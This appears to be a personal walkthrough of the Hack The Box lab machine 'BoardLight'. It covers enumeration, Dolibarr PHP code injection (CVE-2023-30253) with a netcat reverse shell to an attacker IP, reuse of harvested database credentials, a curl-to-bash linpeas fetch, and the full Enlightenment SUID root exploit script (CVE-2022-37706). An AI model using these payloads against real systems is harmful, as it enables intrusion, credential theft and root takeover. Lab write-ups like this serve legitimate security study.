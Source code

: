 # NOTE: IPPSec video is a must watch. explains in detail with code analysis and goes beyond scope. Has a lot of good information
## Reconnaissance
- 10.10.11.11
	- port 80 : BoardLight
		- can submit message (maybe RCE via that?)
- dirbuster finds some js code files.
- ffuf for fuzzing url
	```bash
ffuf -u http://board.htb/ -w /usr/share/seclists/Discovery/Web-Content/big.txt   -H "Host:FUZZ.board.htb" -fs 15949
```
	- We find crm.board.htb and att to /etc/hosts file
- This url leads us to login page.
	- on searching google we see default creds is admin/admin
	- We also see the version and on searching online we see it has a vulnerability : PHP code injection
		- also has a github which automates it.
			```bash
https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253
```
		- pass after logging in with creds
		- Gain access as www-data
## Manual method
- create new website
	- add php code in Edit HTML Source
		- pass php command to check
			- doesn't work but we see that its case sensitive and can pass if we make any or all characters in PHP uppercase
		- pass command with new knowledge
			```php
<?PHP echo system("whoami");?>
OR
<?pHp phpinfo();?>
```
			- save and click Preview page.
		- pass reverse shell 
			- main exploit:
				```bash
<?PHP echo system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc
10.10.14.41 4455 >/tmp/f");?
```
	- also pass php-reverse-shell.py into it and that works too.
	- for both i keep netcat listener open on required port.
	- both work. but we can understand why better from IPPSecs source code analysis which basically calls a bash file. (there is an even better explanation of the actual exploit which is shown below and explains the directory path having ;, abd the weird // and all to bypass the codes restrictions to pass the exploit)
		```bash
#!/bin/bash
echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
        echo "[-] Couldn't find the vulnerable SUID file..."
        echo "[*] Enlightenment should be installed on your system."
        exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o 
#MAIN PART OF EXPLOIT
noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```
- we check user and we are www-data
## Enumerating as www-data and Gaining initial foothold
- on enumerating we find htdocs, which holds a conf folder and a conf file.
	- within that we find a dbuser and password.
		```php
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```
- I checked /home and found a larissa directory which implies a user named larissa.
	- Can also check(more ideal enumeration)
		```bash
cat /etc/passwd | grep "sh$" # or grep "sh" too
```
		- shows user larissa can run bash
- ssh into machine with db_pass.
	- **NOTE: Yes, can fall into a rabbit hole here as db_pass doesn't imply user pass. Definitely check IPPSec for a more detailed explanation but we eventually find some info enumerating. but it helps with the priv escalation anyway. Bottom line the code checks if user belongs to any user or groups and if not it can't execute the exploit. user larissa is part of adm group which is part of that list and thus can.)**
	- 
## Privilege Escalation
- can send linpeas by first getting it from local machine, and starting a server:
	```bash
sudo python3 -m http.server 9898
```
	- call linpeas from target
		```bash
wget http://10.10.14.25(source_ _addr):9898/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
OR
curl http://10.10.14.25:9898/linpeas.sh|bash #to execute without downloading
```
		- On enumerating we find some setuid files which are interesting. this can also be found by enumerating  with find for setuid:
			```bash
find / -type f -perm -4000 2>/dev/null
```
			- We find an enlightenment file which is unusual
				- can't execute this as www-data
				- can check version with larissa
					```bash
englightenment --version
```
				- we find it to be 0.23.1
- On searching online enlightenment has an exploit CVE-2022-37706
	- We download from exploit.db url :
		https://www.exploit-db.com/exploits/51180
		- and send it to target just like we did with linpeas and www-data user. Need to edit the exploit to only include the bash code within it.
			```bash
wget http://10.10.14.25:9898/51180.txt
cat 51180.txt # copy bash code only
vi exploit.sh # paste bash code
chmod +x exploit.sh
./exploit.sh
whoami
```
			- We gain root privileges
				- root flag at /root/